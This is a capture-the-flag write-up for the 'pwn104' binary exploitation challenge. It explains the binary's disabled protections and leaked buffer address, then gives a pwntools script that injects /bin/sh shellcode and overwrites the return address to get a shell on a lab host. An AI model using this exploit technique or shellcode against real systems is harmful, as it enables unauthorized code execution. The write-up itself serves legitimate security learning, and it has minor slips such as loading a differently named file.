


# Challenge Name : pwn104

category : pwn

# File

Load file to Cutter . If you dont have cutter this is ref video on how to download and setup your cutter `https://shorturl.at/thoTb`

```
Cutter-v2.3.4-Linux-x86_64.AppImage pwn102-1644307392479.pwn102&
```

In Dashboard we can see the protection and the file format.

```
Canary : False
NX bit : False
PIC    : False
```

Looking at all function there is no call system anywhere.However since NX-bit is False . We can just execute a shell code .

# Approach

We will put the shell code to in the buffer and change the return address to point at the buffer back that contain the shellcode to be execute

However the hard thing is to know where our buffer address is since in most device the ASLR(Address space layout randomization) is `enable` the buffer address will be randomize every execution.

This challenge already help us by giving the the address of buffer. We can see that printf and read print and use exact address which is rbp-0x50.


By checking in hexdump we can see that it already specify the buf address using %p


# Python Scripting


```
from pwn import *

context.binary = binary = ELF("./pwn104-1644300377109.pwn104")

shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"


# p = process()
p = remote("10.10.58.247",9004)
output = p.recv()

buffer_address = int(output.split(b"at")[1].strip().decode("utf-8"),16)

#payload = shellcode + padding + rbp + buffer_address
payload = shellcode + b"A" *(0x50 - len(shellcode)) + b"A" * 0x8+ p64(buffer_address) +p64(buffer_address)

p.sendline(payload)

p.interactive()
```